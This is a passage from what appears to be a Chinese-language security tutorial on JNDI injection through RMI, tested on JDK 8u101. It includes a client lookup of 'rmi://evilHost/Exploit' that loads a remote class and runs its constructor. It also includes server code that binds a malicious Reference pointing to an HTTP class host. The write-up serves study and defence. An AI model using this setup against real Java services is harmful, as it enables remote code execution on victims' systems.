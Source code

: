 此时假设使用 rmi 协议 客户端通过 lookup 函数请求上面 bind 设置的 Exploit

```plain
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 Reference 对象 客户端在本地 CLASSPATH 查找 Exploit 类 如果没有 则根据设定的 Reference 属性 到 URL [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例 构造方法中的恶意代码会被执行

[![](assets/1699929746-63d2ffc490da1186e0fadfc36a6ef8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001933-c45cb670-7f1b-1.png)

### RMI 低版本 JDK

此处实验的 jdk 版本是 8u101

服务端代码

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class SERVER {

    public static void main(String args[]) throws Exception {

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest.class", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);

    }

}
```

